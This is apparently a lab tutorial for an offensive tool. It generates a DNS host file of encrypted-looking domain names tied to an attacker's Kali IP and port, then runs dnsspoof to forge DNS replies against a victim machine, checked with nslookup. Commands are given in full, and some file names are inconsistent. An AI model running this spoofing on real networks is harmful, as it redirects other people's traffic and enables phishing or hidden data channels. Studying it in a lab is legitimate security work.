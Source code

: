 - Navigate into the path into ```Generator.py```
- First, install the required libraries by running
   - ```pip install -r requeriments.txt```
- Run ```ip``` a on the Kali Linux box to find it’s IP address.
- Run
    - ```Generator.py --lhost <kali linux IP> --lport <kali linux PORT> --passphrase <PASSWORD> --filepath <DNS OUTPUTPATH>```
    - ```Generator.py --lhost 192.168.1.105 --lport 5555 --passphrase my_key --filepath /home/panos/Desktop/dns.txt```

As you can see, we give as parameters the attack Kali Linux machine the IP the port, the passphrase key to encrypt the
data, and finally the path where the output DNS file will be created

## Spoofing-Attack

Our next job now is to perform DNS spoof attack for that reason we use dnsspoof tools. dnsspoof
is a popular tool used for DNS spoofing attacks. It's part of the Dsniff suite and allows
attackers to forge replies to arbitrary DNS address and pointer queries on the local
network. It is s designed to intercept and respond to DNS queries based on entries in a
fake host file. By providing false DNS responses, attackers can redirect network traffic
to arbitrary destinations, potentially leading to phishing attacks, malware distribution,
or other malicious activities.

Create a fake dns host file with the previous python script where we are going to spoof. Each line should contain an IP address
followed by a domain name. For example:

```
10.0.0.0 bBs7JaQjyZu8e+wjDYpQ5c1uRsd8raQKNROEFQC2tco=.com
10.0.0.1 QghClBp22MwZ71YUsJTgQranFIA3SWaEMNi3m7lTBu4=.com
```

Open a terminal and run dnsspoof with the following command:

  - ```dnsspoof -i eth0 -f dns.txt```


This command tells dnsspoof to use the ```fake_hosts.txt``` file for DNS spoofing on ```eth0```. All DNS
requests for ```bBs7JaQjyZu8e+wjDYpQ5c1uRsd8raQKNROEFQC2tco=.com``` on the local network will
now be redirected to the IP addresses ```10.0.0.0```, respectively.

Once dnsspoof is running, it will display DNS queries it intercepts and the forged
responses it sends. We monitor this output to see which devices on the network are
making DNS requests and how they are being redirected. Lets dive into this!

Open a terminal in the victim machine and check if the DNS spoof is working by running
nslookup. In the majority of cases, the result should get a response like this:

```
Server:  UnKnown
Address:  192.168.1.105

Name:    BnTI1Rkq3mWdNzjHMRfITug5gFDvccnbvSGJSLFyXPU=.com
Address:  10.0.0.0
```
